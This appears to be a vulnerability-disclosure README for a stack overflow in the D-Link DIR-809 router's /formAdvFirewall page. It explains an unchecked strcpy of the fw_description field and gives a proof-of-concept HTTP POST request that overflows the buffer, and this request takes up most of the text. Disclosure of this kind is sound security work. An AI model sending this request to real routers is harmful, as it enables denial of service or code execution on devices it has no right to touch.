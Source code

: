 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formAdvFirewall` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_800462c4` ( page `/formAdvFirewall` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"fw_description_%d"` in the http post request which is completely under the attacker's control. 
2. The string `local_14` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack276`. 

![2021-05-10_11h04_17](README/2021-05-10_11h04_17.png)



## PoC

``` 
POST /formAdvFirewall.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3228
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Firewall.asp?t=1620560035954
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=s4vLUlBpKH
Connection: close

settingsChanged=1&curTime=1620560128072&HNAP_AUTH=33A4575639545280B0A1F1C2E47D6A72+1620560128&submit-url=%2FAdvanced%2FFirewall.asp&anti_spoof=false&spi_enabled=false&dmz_enabled=0&alg_rtsp=true&fw_description_0=123123123213123123*0x200&sinf_0=1&s_s_ip_0=192.168.0.2&s_e_ip_0=192.168.0.4&pro_0=2&act_0=1&dinf_0=2&d_s_ip_0=192.168.0.5&d_e_ip_0=192.168.0.10&d_s_port_0=10000&d_e_port_0=10001&fw_description_1=&sinf_1=0&s_s_ip_1=&s_e_ip_1=&pro_1=2&act_1=1&dinf_1=0&d_s_ip_1=&d_e_ip_1=&d_s_port_1=0&d_e_port_1=&fw_description_2=&sinf_2=0&s_s_ip_2=&s_e_ip_2=&pro_2=2&act_2=1&dinf_2=0&d_s_ip_2=&d_e_ip_2=&d_s_port_2=0&d_e_port_2=&fw_description_3=&sinf_3=0&s_s_ip_3=&s_e_ip_3=&pro_3=2&act_3=1&dinf_3=0&d_s_ip_3=&d_e_ip_3=&d_s_port_3=0&d_e_port_3=&fw_description_4=&sinf_4=0&s_s_ip_4=&s_e_ip_4=&pro_4=2&act_4=1&dinf_4=0&d_s_ip_4=&d_e_ip_4=&d_s_port_4=0&d_e_port_4=&fw_description_5=&sinf_5=0&s_s_ip_5=&s_e_ip_5=&pro_5=2&act_5=1&dinf_5=0&d_s_ip_5=&d_e_ip_5=&d_s_port_5=0&d_e_port_5=&fw_description_6=&sinf_6=0&s_s_ip_6=&s_e_ip_6=&pro_6=2&act_6=1&dinf_6=0&d_s_ip_6=&d_e_ip_6=&d_s_port_6=0&d_e_port_6=&fw_description_7=&sinf_7=0&s_s_ip_7=&s_e_ip_7=&pro_7=2&act_7=1&dinf_7=0&d_s_ip_7=&d_e_ip_7=&d_s_port_7=0&d_e_port_7=&fw_description_8=&sinf_8=0&s_s_ip_8=&s_e_ip_8=&pro_8=2&act_8=1&dinf_8=0&d_s_ip_8=&d_e_ip_8=&d_s_port_8=0&d_e_port_8=&fw_description_9=&sinf_9=0&s_s_ip_9=&s_e_ip_9=&pro_9=2&act_9=1&dinf_9=0&d_s_ip_9=&d_e_ip_9=&d_s_port_9=0&d_e_port_9=&fw_description_10=&sinf_10=0&s_s_ip_10=&s_e_ip_10=&pro_10=2&act_10=1&dinf_10=0&d_s_ip_10=&d_e_ip_10=&d_s_port_10=0&d_e_port_10=&fw_description_11=&sinf_11=0&s_s_ip_11=&s_e_ip_11=&pro_11=2&act_11=1&dinf_11=0&d_s_ip_11=&d_e_ip_11=&d_s_port_11=0&d_e_port_11=&fw_description_12=&sinf_12=0&s_s_ip_12=&s_e_ip_12=&pro_12=2&act_12=1&dinf_12=0&d_s_ip_12=&d_e_ip_12=&d_s_port_12=0&d_e_port_12=&fw_description_13=&sinf_13=0&s_s_ip_13=&s_e_ip_13=&pro_13=2&act_13=1&dinf_13=0&d_s_ip_13=&d_e_ip_13=&d_s_port_13=0&d_e_port_13=&fw_description_14=&sinf_14=0&s_s_ip_14=&s_e_ip_14=&pro_14=2&act_14=1&dinf_14=0&d_s_ip_14=&d_e_ip_14=&d_s_port_14=0&d_e_port_14=&fw_description_15=&sinf_15=0&s_s_ip_15=&s_e_ip_15=&pro_15=2&act_15=1&dinf_15=0&d_s_ip_15=&d_e_ip_15=&d_s_port_15=0&d_e_port_15=&fw_description_16=&sinf_16=0&s_s_ip_16=&s_e_ip_16=&pro_16=2&act_16=1&dinf_16=0&d_s_ip_16=&d_e_ip_16=&d_s_port_16=0&d_e_port_16=&fw_description_17=&sinf_17=0&s_s_ip_17=&s_e_ip_17=&pro_17=2&act_17=1&dinf_17=0&d_s_ip_17=&d_e_ip_17=&d_s_port_17=0&d_e_port_17=&fw_description_18=&sinf_18=0&s_s_ip_18=&s_e_ip_18=&pro_18=2&act_18=1&dinf_18=0&d_s_ip_18=&d_e_ip_18=&d_s_port_18=0&d_e_port_18=&fw_description_19=&sinf_19=0&s_s_ip_19=&s_e_ip_19=&pro_19=2&act_19=1&dinf_19=0&d_s_ip_19=&d_e_ip_19=&d_s_port_19=0&d_e_port_19=&fw_description_20=&sinf_20=0&s_s_ip_20=&s_e_ip_20=&pro_20=2&act_20=1&dinf_20=0&d_s_ip_20=&d_e_ip_20=&d_s_port_20=0&d_e_port_20=&fw_description_21=&sinf_21=0&s_s_ip_21=&s_e_ip_21=&pro_21=2&act_21=1&dinf_21=0&d_s_ip_21=&d_e_ip_21=&d_s_port_21=0&d_e_port_21=&fw_description_22=&sinf_22=0&s_s_ip_22=&s_e_ip_22=&pro_22=2&act_22=1&dinf_22=0&d_s_ip_22=&d_e_ip_22=&d_s_port_22=0&d_e_port_22=&fw_description_23=&sinf_23=0&s_s_ip_23=&s_e_ip_23=&pro_23=2&act_23=1&dinf_23=0&d_s_ip_23=&d_e_ip_23=&d_s_port_23=0&d_e_port_23=
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

